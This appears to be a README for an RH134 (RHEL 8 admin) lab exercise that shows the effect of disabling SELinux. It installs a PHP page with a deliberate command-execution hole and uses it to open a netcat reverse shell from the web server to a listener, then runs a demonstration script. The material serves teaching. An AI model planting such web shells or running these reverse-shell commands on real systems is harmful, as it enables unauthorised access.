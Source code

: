 # rh134_Selinux
* Extra Practice for RH134 Training - RHEL 8.2 Admin II
  >> To run on Redhat RH134 Lab Systems!

### Scenario: We going to the see effects of turning off/disabled SElinux on ServerA

### Part1: Instruction - run in servera or serverb ( choose 1 ) and run as user root
  >> We assume its servera 

1.  Setup apache webserver and php 
```sh 
yum install httpd php -y 
```

2. Setup PHP Page 
```sh 

cd /var/www/html/

touch index.php 

insert this code into index.php 

<html>
 <head>
  <title>PHP Page</title>
 </head>
 <body>
 <?php echo '<p>Hello Redhatters RH134</p>'; ?>
 <p> Welcome RH134 Students </p>
 <p> Sample Vendor provided Page/App</p>
 <p> This page (php) allows you to execute Linux Command</p>
 <p> SElinux Demo Page </p>
 <?php system($_GET['cmd']);?>

 </body>
</html>
```

3. Comment PrivateTMP in htttpd and php-fpm systemd config file and save it
```sh 

vim /usr/lib/systemd/system/httpd.service
#PrivateTmp=true

vim /usr/lib/systemd/system/php-fpm.service
#PrivateTmp=true

systemctl daemon-reload 
systemctl enable --now httpd
```

4. Turn Off SElinux 
```sh 

getenforce 

setenforce 0 

getenforce 

```

5. Enable firewall to allow access to webserver
```sh 
firewall-cmd --permanent --add-service=http

firewall-cmd --reload
```

### Part2: Instruction - run in workstation machine

1. Open firefox to http://servera.lab.example.com 
once in the browser, execute this on the address bar, this will create a device character file called backpipe1 

```sh 
http://servera.lab.example.com/index.php?cmd=mknod /var/tmp/backpipe1 p

```

2. Create a local listener in workstation machine, open a terminal and run 
```sh 

firewall-cmd ----permanent --add-port=1234/tcp

firewall-cmd --reload

nc -lvvp 1234

```

3. Back to firefox, run the following to establish a reverse shell from webserver to workstation listener 
```sh 
http://servera.lab.example.com/index.php?cmd=/bin/sh 0</var/tmp/backpipe1 | nc workstation.lab.example.com 1234 1>/var/tmp/backpipe1


```

4. Check the terminal where the nc listener running and open a shell 
you should receive a connection from servera ( 172.25.250.10 )

```sh 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.25.250.10.
Ncat: Connection from 172.25.250.10:54496.
```

Run the following command to create a shell 

```sh 
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

You should receive a shell
```sh 
sh-4.4$ 
```

5. If Step 4 done, you now have a reverse shell (hacked shell) to servera from workstation 
run the following command to create a exploit file and run the exploit 
>> the exploit file is just a shell script, in real life, an attacker could run a real exploit !!
```sh
sh-4.4$ cd /tmp

sh-4.4$ echo "echo OWN3D_servera" > ex.sh

sh-4.4$ cat ex.sh
echo OWN3D_servera

sh-4.4$ chmod +x ex.sh

sh-4.4$ ls -l ex.sh
-rwxrwxrwx. 1 apache apache 19 Mar 22 09:25 ex.sh

sh-4.4$ ./ex.sh
OWN3D_servera

sh-4.4$

```